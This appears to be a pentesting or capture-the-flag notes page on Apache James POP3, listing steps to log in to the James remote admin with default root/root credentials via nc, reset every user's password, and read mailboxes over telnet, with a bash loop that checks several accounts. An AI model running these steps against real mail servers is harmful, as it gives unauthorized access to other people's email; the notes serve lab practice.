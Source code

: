 ```yaml
---
title: James POP3
parent: General Usage
layout: default
nav_order: 21
---
```


1. First need to reset the password. Login to James remote admin via nc: `nc IP PORT` (default 4555). Then login using root root. `help` to see the commands. reset all user password.
2. Use telnet to interact with the POP3 server: `telnet IP PORT` (default 110)
3. then login using:
   `user username`
   `pass password`
4. Show emails using `list`
5. Optional two liner bash to see which person has email content: 
   ```
   for user in user1 user2 user3 user4 user5 user6; do
    ( echo USER ${user}; sleep 2s; echo PASS password; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC IP PORT;  done
   ```
6. If got a list, use `retr number` to read the email listed. (eg `retr 1`, `retr 2`)